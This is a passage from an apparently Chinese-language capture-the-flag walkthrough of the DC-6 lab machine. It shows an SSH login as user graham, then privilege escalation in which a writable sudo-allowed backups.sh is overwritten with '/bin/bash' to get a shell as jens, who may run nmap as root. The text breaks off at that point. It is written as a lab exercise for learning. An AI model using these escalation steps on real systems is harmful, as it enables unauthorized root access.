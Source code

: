 倒数第四行就是这个用户，我们ssh去连接一下

```
┌──(root㉿kali)-[~]
└─# ssh graham@192.168.23.149                                      
The authenticity of host '192.168.23.149 (192.168.23.149)' can't be established.
ED25519 key fingerprint is SHA256:BiP2AT/3IPc02K9uqH+WQ7eaE/xcImEo/D1R6/0tjBw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.23.149' (ED25519) to the list of known hosts.
graham@192.168.23.149's password: 
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
graham@dc-6:~$
```

ok,下一步权限提升

### 权限提升

让我们看看有什么可以利用的点

```
graham@dc-6:~$ sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

所以我们可以 sudo 来运行 jens 的 backups.sh。 此外，我们注意到开发组中的用户（例如 graham）可以修改 jens/backups.sh。

也就是说，我们可以获得一个名为 jens 的 shell：

```
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh
tar: Removing leading `/' from member names
graham@dc-6:/home/jens$ cat backups.sh
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:/home/jens$ echo "/bin/bash" > backups.sh
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh
jens@dc-6:~$
```

限制我们拥有一个jens用户的shell，看一下可以做什么

```
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:                                                                         
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin          

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```
